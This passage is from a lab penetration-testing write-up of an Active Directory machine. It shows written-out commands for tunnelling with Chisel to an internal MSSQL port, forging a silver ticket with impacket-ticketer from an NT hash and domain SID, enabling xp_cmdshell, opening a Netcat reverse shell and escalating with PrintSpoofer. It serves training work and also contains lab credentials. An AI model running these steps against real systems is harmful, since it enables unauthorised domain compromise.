<figure><figcaption></figcaption></figure>

Unfortunately no CAs exist in this domain, but I will load the other results into BloodHound and start poking around. In the meantime I launch a peas run with the command:


```bash
\\x.x.x.234\tools\peas.exe -a quiet log=\\x.x.x.234\tools\christopher.peas
```


None of these tools turned up anything particularly helpful so I start giving some thought to my next move.

### MSSQL

I recall that I was able to Kerberoast the svc\_mssql account. However I did not see port 1433 open on the initial Nmap scans from outside. This leads me to believe that it may be only on the internal interface. I run netstat and find it:

<figure><figcaption><p>Port 1433 on the internal interface</p></figcaption></figure>

I spend a few minutes trying to get a shell running as `svc_mssql` with `RunasCs.exe` from my evil-winrm session to no avail:

<figure><figcaption><p>RunasCs not working</p></figcaption></figure>

If that is not going to work I will use this session to set up a proxy to the port.

#### Setting Up Chisel Server

I set up the chisel server on my Kali machine (port `8080`) with the command:


```bash
chisel server --port 8080 --reverse
```


#### Setting Up Chisel Client

As `Christopher.Lewis` I will use my WinRM session to run [Chisel](../../attack-vectors/port-forwarding-and-tunneling/tunneling-through-dpi/http-tunneling/chisel.md) and create a port forward to the machine's local interface port 1433. To set up the proxy I use the command:


```bash
\\x.x.x.234\chisel.exe client x.x.x.234:8080 R:1234:127.0.0.1:3306
```


At this point a connection is seen on the server:

<figure><figcaption></figcaption></figure>

#### Accessing MSSQL

I will use Impacket's [`mssqlclient`](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#login) script to interact. I will connect with the command:


```bash
impacket-mssqlclient -port 1234 nagoya-industries.com/svc_mssql:Service1@127.0.0.1 -windows-auth
```


* `-windows-auth` is needed to fix the encryption required error

<figure><figcaption><p>Connection to database</p></figcaption></figure>

#### Code Execution

MSSQL does offer a way to run commands on the underlying operating system via [`xp_cmdshell`](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16). Unfortunately it seems this is disabled for the current user (`svc_mssql`):

<figure><figcaption><p>Code execution denied</p></figcaption></figure>

### Silver Ticket

Since I have access to the svc\_mssql account I can create Silver Tickets for the MSSQL service. [Recall](../../windows/active-directory/authentication/#client-service-request) that when a service request happens in Kerberos, the `TGS-REP` is signed with the key of the service. In this instance that means when the DC grants a ticket for MSSQL it uses the hash of the `svc_mssql` account to sign the ticket. Since I have the hash and the password I can create my own tickets.

Recall from the Silver Tickets section that 2 things are required to mint a new ticket:

1. SID of the domain
2. SPN of the service (MSSQL)

#### Obtaining Domain SID

The SID of the domain is pretty easy to obtain in this instance. The PowerShell ActiveDirectory Module appears to be installed on the machine so it is as simple as running:

```powershell
Get-ADDomain
```

<figure><figcaption><p>Obtaining Domain SID</p></figcaption></figure>

```
S-1-5-21-1969309164-1513403977-1686805993
```

#### MSSQL SPN

Luckily the SPN is super easy to find. It is actually just in the BloodHound output from earlier:

<figure><figcaption><p>MSSQL SPN in BloodHound</p></figcaption></figure>

```
MSSQL/nagoya.nagoya-industries.com
```

Had I not run BloodHound, the following PowerShell command would have revealed the SPN:


```powershell
Get-ADUser -Filter {SamAccountName -eq "svc_mssql"} -Properties ServicePrincipalNames
```


#### Impacket Ticketer

I will use Impacket's `ticketer` to request my Silver Ticket. The command is shown below:


```bash
impacket-ticketer -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya.nagoya-industries.com -user-id 500 Administrator
```


* Hash was obtained by typing the password into an [online converter](https://codebeautify.org/ntlm-hash-generator)
* This requires an entry for `nagoya-industries.com` in the machine's `/etc/hosts` file

The hash ticket is output into an `Administrator.ccache` file:

<figure><figcaption><p>Obtaining the Silver Ticket</p></figcaption></figure>

#### Using the Ticket

In order to use the ticket I will need to set the environment variable KRB5CCNAME to the .ccache file just created:


```bash
export KRB5CCNAME=$PWD/Administrator.ccache
```


I will also need to create a `krb5user.conf` file and place it at `/etc/krb5user.conf`:


```
[libdefaults]
        default_realm = NAGOYA-INDUSTRIES.COM
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
    rdns = false
    dns_canonicalize_hostname = false
        fcc-mit-ticketflags = true

[realms]        
        NAGOYA-INDUSTRIES.COM = {
                kdc = nagoya.nagoya-industries.com
        }

[domain_realm]
        .nagoya-industries.com = NAGOYA-INDUSTRIES.COM
```


The default\_realm is set to `NAGOYA-INDUSTRIES.COM` in the `[libdefaults]` section. The `[realms]` field is used to set the domain and the domain controller is pointed to with the name of the machine (`nagoya.nagoya-industries.com`). The `domain_realm` is also set with the appropriate values for this domain. Once these pieces are in place I can connect to MSSQL with this ticket using the command:


```bash
impacket-mssqlclient -k nagoya.nagoya-industries.com
```


* Getting the configuration for this took awhile. It requires the installation of kerb5-user via apt
* I had to revamp my [chisel proxy](nagoya.md#setting-up-chisel-client) to be on port `1433` on my local machine
* I added an entry for `nagoya.nagoya-industries.com` to my `/etc/hosts` file pointing at `127.0.0.1`

#### Code Execution

I can now enable `xp_cmdshell` with:

```sql
enable_xp_cmdshell
```

I can then run commands on the underlying OS as svc\_mssql:

<figure><figcaption><p>Code Execution</p></figcaption></figure>

### Reverse Shell

From here getting a reverse shell is as simple as downloading Netcat and launching a shell:

<figure><figcaption><p>Launching a shell as svc_mssql</p></figcaption></figure>

<figure><figcaption><p>Catching the reverse shell</p></figcaption></figure>

### SeImpersonatePrivilege

From here I discover that `svc_mssql` has `SeImpersonatePrivilege` so it is a simple matter of PrintSpoofer to SYSTEM.

<figure><figcaption><p>Finding SeImpersonatePrivilege</p></figcaption></figure>

<figure><figcaption><p>PrintSpoofer</p></figcaption></figure>

Administrator access achieved.

## Learned

* .**NET Decompilation:** I found a valid .NET decompiler for Linux. Always check any found `.exe`s for credentials
* **Resetting Passwords with RPC:** It was my first time resetting a password with rpcclient. Luckily I found an article that walked me through it. It is good to remember this option because I find RPC a lot so this can be helpful for lateral movement
* **Always Enumerate Internal Network Interface:** this is the second time I have initially missed a service on the internal interface. This one was especially obvious since I already had Kerberoasted svc\_mssql so I should have known to look for it given it could not be seen externally.
* **Silver Ticket from Linux:** The course examples all showed how to do a Silver Ticket attack with windows resources (`Mimikatz`) but I had no idea how to do it with the Linux tools from Impacket

### Difficulty Rating

* **Foothold 7/10:** Depending on password spraying, then binary decompilation, and then password reset via RPC made this challenging
* **Privilege Escalation 4/10:** Having successfully Kerberoasted svc\_mssql I should have checked the internal interface sooner. Once found the only challenging aspect was doing this with Linux tools instead of Windows ones as I had previously seen&#x20;
